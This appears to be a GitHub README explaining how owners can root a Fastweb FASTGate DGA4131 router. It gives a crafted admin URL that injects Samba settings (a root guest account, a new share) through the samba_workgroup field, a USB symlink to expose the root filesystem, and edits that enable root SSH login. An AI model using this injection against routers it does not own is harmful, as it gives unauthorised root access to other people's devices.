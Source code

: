 ## FastgateRoot
How to get full access to your Fastgate, a widely used Router distributed by the ISP Fastweb in Italy.

## How does it work?
This trick uses a very old flaw available in basically every Technicolor router, you can have a USB return the root folder of the router by crafting a special symbolic link. 

## Getting Started

### Requirements

* A FASTGate DGA4131 (VBNT-O).
* An USB Drive.
* A Linux machine (a live version of Ubuntu should be ok, probably WSL too).

### Instructions

* Open up a terminal, navigate to the USB Drive path and type the following: `ln -s / rootlink`.
* Open up a browser, login to your fastgate admin page (it's usually available [here](http://192.168.1.254)).
* Once you logged on, click on this [link](http://192.168.1.254/status.cgi?3g_pin=********&act=nvset&samba_enabled=1&samba_workgroup=WORKGROUP%5c%0a%09security%20%3d%20share%5c%0a%09guest%20account%20%3d%20root%5c%0a%09interfaces%20%3d%20lo%20br-lan%5c%0a%5c%0a%5bohnonotagain%5d&service=usb_status).
* Plug the USB Drive in your router.
* Navigate to `\\192.168.1.254\usbdisk\rootlink` by using a SMB Client (like Windows Explorer).
* Now you should be able to access the FS of your router, there are still a few things to do though.
* Edit `/etc/inittab` by removing '#' from the last line `::askconsole:/bin/login`, if there's none just leave it as it is. This should turn the console login on, in case you screw your router heavily you should be backed up now.
* Edit `/etc/passwd` by removing `root:/bin/false` and adding `root:/bin/ash`. This allows using a shell for an eventual login.
* Edit `/etc/config/dropbear` as following (delete every other config involving SSH in this file, if there's any):
`config dropbear 'Example'
 option Interface 'lan'
 option Port '22'
 option IdleTimeout '600'
 option PasswordAuth 'on'
 option RootPasswordAuth 'on'
 option RootLogin '1'
 option enable '1'`
*


